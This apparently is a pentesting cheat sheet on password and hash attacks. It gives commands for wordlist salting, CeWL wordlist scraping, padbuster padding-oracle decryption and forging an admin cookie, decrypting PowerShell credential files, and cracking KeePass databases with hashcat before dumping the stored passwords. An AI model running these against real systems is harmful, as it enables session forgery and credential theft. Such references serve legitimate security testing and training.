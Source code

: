 # Passwords and hashes
Ways to break password hashes, or just methods to make the bruteforce easier.

# Adding salt (as a normal string) to a password file
This is if the password has no salt shown, because it has been concatenated when encrypting, therefore the salt has to be added to the dictionary, line-by-line.
```bash
sed -e 's/^/prefix/' <file> > <file.new>
```


# Cewl
Cewl can be used on a webpage and if one suspects that a password is hidden     
somewhere in the website.

## Usage
```bash
cewl -w <wordlist> -d 10 -m 1 <url>
```


# Padding oracle atttack
## Usage
```bash
# DECRYPT
padbuster <url> "cookie" 8 -encoding 0 -cookies "cookiename=cookie"

# ENCRYPT NEW COOKIE
padbuster <url> "old_cookie" 8 -encoding 0 -cookies "auth=old_cookie" -plaintext "user=admin"
```

### Reference
- https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv[](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv)


# Powershell credentials file
The command below can be used to, decrypt a given credentials file. **(has to be logged in as the user)**
```powershell
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```


# KeePass (jenkins) & kdbx files
## Usage
1.  Use `keepass2john` to make the file into a hash.
2. Crack the hash file (from step 1) with hashcat, this will give you the **master password**    
```bash
hashcat.bin CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
```
3. Use `kpcli` to extract passwords: 
```bash
kpcli --kdb <file>.kdbx
```
4. Run, `find .` in `kpcl`i will list all of the passwords
5. `show -f [num]` will print a password based on the number that was input 